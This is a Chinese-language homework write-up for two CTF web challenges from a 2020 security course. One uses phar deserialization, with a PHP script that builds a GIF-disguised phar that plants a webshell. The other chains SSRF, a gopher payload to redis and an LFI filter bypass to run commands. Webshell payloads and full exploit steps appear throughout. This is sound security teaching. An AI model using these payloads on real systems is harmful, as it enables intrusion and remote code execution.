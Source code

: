 ```yaml
---
tags: 2020 程式安全
---
```

# HW6
## Rero Meme
### 題目分析
* 題目直接給出網站的source code
* 網站一開始會要求使用者輸入名稱來登入在登入的時候會用is_dir檢查在images這個資料夾底下有沒有一個資料夾名字是使用者的名稱如果沒有就用mkdir去產生一個資料夾
* 接著就會登入到網站使用者可以上傳一張gif的圖片並且給這張圖片一個title
* 當server收到使用者上傳的圖片會檢查是不是gif檔之後會用file_get_contents把圖片內容讀出來然後之後再用file_put_contents把他存在images/$username底下並命名為剛剛輸入的title.gif
* 使用者上傳在server那邊/images/$username底下所有.gif的檔案都會被讀出來顯示在網頁上
### 漏洞
* 在檢查上傳的圖片時是拿檔頭的資訊來檢查是不是gif檔所以如果可以偽造一個惡意的檔案檔頭跟gif一樣他就會成功通過檢查上傳到server
* 在檢查有沒有資料夾名稱跟使用者的名稱一樣時用到is_dir但是is_dir的參數如果被傳入`phar://`他就會去解析phar的協議然後去讀phar的檔案做反序列化
* 輸入的使用者名稱沒有做檢查可以輸入任意的內容之後這個會被當作參數送到is_dir所以就等於is_dir的參數可控可以構造出`phar://`去執行反序列化
### Exploit
* 因為我們可以任意構造一個使用者名稱透過is_dir觸發phar的反序列化
* 然後我們可以看到在Meme這個class的__destruct會用file_put_contents
```php=
function __destruct()
{
    if ($this->content != NULL)
        file_put_contents($this->filename, $this->content);
}
```
* 所以只要控好Meme的this->filename和this->content這樣在觸發反序列化的時候他會去呼叫__destruct這樣我們就可以透過這個file_put_contents在server寫一個webshell
* 所以就去寫一個能夠生成phar檔的php
* 把content塞進`<?php system($_GET[a]);?>`把filename塞`images/c8c8c8c8c8c8.php`因為他會在images這個資料夾使用mkdir產生新的資料夾所以就代表images這個資料夾是可寫的所以就把webshell寫在這
* 然後因為server看檢查上傳的東西的檔頭看他是不是gif檔的檔頭但是phar的規範並沒有規定檔頭是什麼所以就可以在phar的檔頭塞進GIF89a這樣就能把他偽裝成gif檔通過檢查成功上傳
```php=
<?php
class Meme
{
    public $title;
    public $author;
    public $filename;
    private $content = NULL;
    function __construct($title, $author, $content = NULL)
    {
        $this->title = "admin";
        $this->author = "admin";
        $this->content = "<?php system(\$_GET[a]);?>";
        $this->filename = "images/c8c8c8c8c8c8.php";
    }
    function __destruct()
    {
        if ($this->content != NULL)
            file_put_contents($this->filename, $this->content);
    }
}

$obj = new Meme("admin", "admin", "444", "555");
$p = new Phar('./1.phar', 0);
$p->startBuffering();
$p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
$p->setMetadata($obj);
$p->addFromString('1.txt','text');
$p->stopBuffering();
rename('./1.phar', '77.gif');
?>
```
* 成功上傳之後他就會被存在images/$username/$title.gif我把名字叫做c8c8c8c8c8c8然後title取77所以他就被存成images/c8c8c8c8c8c8/77.gif
* 之後我們就把cookie清空再回到登入的頁面構造一個username去觸發images/c8c8c8c8c8c8/77.gif這個phar檔的反序列化
* 因為他登入的時候會把目錄改到images底下所以payload就變成`phar://c8c8c8c8c8c8/77.gif`這樣就能成功觸發剛剛上傳的phar檔在images底下寫一個c8c8c8c8c8c8.php的webshell
* 然後再用`http://rero.splitline.tw:8893/images/c8c8c8c8c8c8.php?a=cat%20/fl*`就能把flag讀出來了
>FLAG{レロレロ?RERO!レロレロ,RERO?レロレロ~}
## 陸拾肆基底編碼之遠端圖像編碼器
### 題目分析
* 題目會去抓使用者輸入圖片的網址的圖片然後轉換成base64
* 但是並沒有對輸入的內容做檢查導致存在SSRF的漏洞
### 漏洞
* 存在SSRF的漏洞並可以透過內網的服務進一步做到RCE
* 存在LFI的漏洞會把webshell給跑起來
### Exploit
* 因為有輸入網址的地方所以可能就存在SSRF的漏洞所以先用`file:///var/www/html/index.php`試試看
* 結果發現他變成無法顯示的圖片但是有base64的內容去decode後發現把index.php的source code給讀出來了所以知道他有SSFR的漏洞
* index.php裡面會發現有LFI的漏洞他會把用get取得的page的內容加上.inc.php的內容給include進來
```php=
<?php
    $page = str_replace("../", "", $_GET['page'] ?? 'home');
    include("page/$page.inc.php");
?>
```
* 接著就進一步去讀這台server的apache的config檔案之類的看有沒有甚麼其他的內容
* 然後讀到`/proc/net/tcp`得時候可以看到有哪些TCP的服務會得到像下面的結果  
![](https://i.imgur.com/8cF6v19.png)
* 這邊是用16進位表示這台server上面哪些port有在用像是第一個0100007F:69FE就是代表127.0.0.1底下的27134 port
* 所以可以用一開始找到的SSRF的洞去對這些port發get請求看看會有甚麼結果但是有檢查不能輸入127.0.0.1所以就試試看用其他方式例如0.0.0.0之類的會發現可以成功繞過檢查
* 當輸入`http://0.0.0.0:27134`的時候他會顯示`-ERR wrong number of arguments for 'get' command`去查一下會發現這個是redis的錯誤訊息所以就知道在這台server上的27134 port有跑redis
* redis是一個資料庫系統但是可以利用他構造惡意的payload並儲存下來而且這個server沒有限制使用gopher所以就可以用gopher去操作redis來寫一個webshell來達成RCE
* 用redis構造的payload如下寫一個webshell並且把檔案存在/tmp底下因為redis沒有root的權限不能直接把檔案寫在/var/www/html底下所以就寫在/tmp然後因為LFI的漏洞會include xxx.inc.php所以就要把webshell的副檔名寫成.inc.php
```
FLUSHALL
SET myshell "<?php system($_POST['cmd']) ?>"
CONFIG SET DIR /tmp
CONFIG SET DBFILENAME c87638787.inc.php
SAVE
QUIT
```
* 轉成gopher的語句之後就變成  
`gopher://0.0.0.0:27134/_FLUSHALL%0aSET myshell "<?php system($_POST['cmd']) ?>"%0aCONFIG SET DIR /tmp%0aCONFIG SET DBFILENAME c87638787.inc.php%0aSAVE%0aQUIT`
* 把這個惡意的gopher語具送到SSRF的洞這樣就在tmp底下寫入了c87638787.inc.php這個檔案裡面有`<?php system($_POST['cmd']) ?>`的語句
* 接著只要去把我們構造的webshell給include進來然後用post的方式給他參數就成功RCE了
* 因為她去include的目錄不是我們要的位置我們的webshell在/tmp底下所以要先把目錄改到/tmp底下
* 他會檢查輸入的內容是不是有`../`會被拿掉但是只要輸入`....//`這樣中間一個`../`被拿掉後組合起來還是`../`這樣就可以回到上一層所以就用很多的`....//`就可以確保他到`/`了
* 所以最後就會變成`http://base64image.splitline.tw:8894/?page=....//....//....//....//....//....//....//....//....//tmp/c87638787`然後用post的方式傳入`cmd=cat /fl*`就能夠成功拿到flag
>FLAG{data:text/flag;r3d1s-s3rv3r} 